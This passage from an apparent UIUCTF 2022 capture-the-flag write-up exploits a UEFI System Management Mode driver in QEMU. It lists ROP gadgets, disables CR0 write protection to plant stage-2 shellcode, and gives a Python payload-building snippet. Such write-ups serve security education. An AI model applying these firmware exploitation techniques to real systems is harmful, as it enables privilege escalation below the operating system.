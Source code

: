 Surely enough, by letting the script run for enough time, we find that  
`gEfiSmmConfigurationProtocolGuid` returns a pointer to a protocol at a nice  
address. Looking at the `debug.log` for loaded drivers we can see that this  
address is inside the `PiSmmCpuDxeSmm.efi` SMM driver, and a simple
subtraction  
gives us its base address.

### Finding ROP gadgets

Now we can take a look at the gadgets in `PiSmmCpuDxeSmm.efi`. As it turns
out,  
we were lucky enough:

- Looking from GDB, we still have R13, R14 and R15 spilled on the SMI stack at  
 the exact same offset.  
- We can move the stack pointer forward: `ret 0x6d`  
- We can flip the stack: `pop rsp; ret`  
- We can pop RAX and other registers: `pop rax ; pop rbx ; pop r12 ; ret`  
- We can set CR0: `mov cr0, rax ; wbinvd ; ret`  
- We have a write-what-where primitive: `mov qword ptr [rbx], rax ; pop rbx ; ret`

We do not have a lot more nice gadgets to work with, so this time instead of  
writing the entire exploit using ROP, after disabling CR0.WP, we will just use  
the write-what-where gadget to overwrite a piece of `.text` of  
`PiSmmCpuDxeSmm.efi` with a stage 2 shellcode, and then simply jump to it.

The only slightly annoying part is the `ret 0x6d` gadget to move the stack  
forward: it will result in a misaligned stack, landing in the 2 most
significant  
bytes of the R13 value spilled on the stack. This isn't a real problem as  
thankfully the CPU (or better, QEMU) does not seem to care about the unaligned  
stack pointer. We'll simply have to do some bit shifting to put values on the  
stack nicely using R{13,14,15}.

```python  
# SmmConfigurationProtocol leaked using
LocateProtocol(gEfiSmmConfigurationProtocolGuid)  
PiSmmCpuDxeSmm_base = SmmConfigurationProtocol - 0x16210  
PiSmmCpuDxeSmm_text = PiSmmCpuDxeSmm_base + 0x1000

log.success('SmmConfigurationProtocol    @ 0x%x', SmmConfigurationProtocol)  
log.success('=> PiSmmCpuDxeSmm.efi       @ 0x%x', PiSmmCpuDxeSmm_base)  
log.success('=> PiSmmCpuDxeSmm.efi .text @ 0x%x', PiSmmCpuDxeSmm_text)

new_smm_stack   = buffer + 0x800  
ret_0x6d        = PiSmmCpuDxeSmm_base + 0xfc8a  # ret 0x6d  
flip_stack      = PiSmmCpuDxeSmm_base + 0x3c1c  # pop rsp ; ret  
pop_rax_rbx_r12 = PiSmmCpuDxeSmm_base + 0xd228  # pop rax ; pop rbx ; pop r12
; ret  
mov_cr0_rax     = PiSmmCpuDxeSmm_base + 0x10a7d # mov cr0, rax ; wbinvd ; ret  
write_primitive = PiSmmCpuDxeSmm_base + 0x3b8f  # mov qword ptr [rbx], rax ;
pop rbx ; ret

payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x6d)  
```


[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-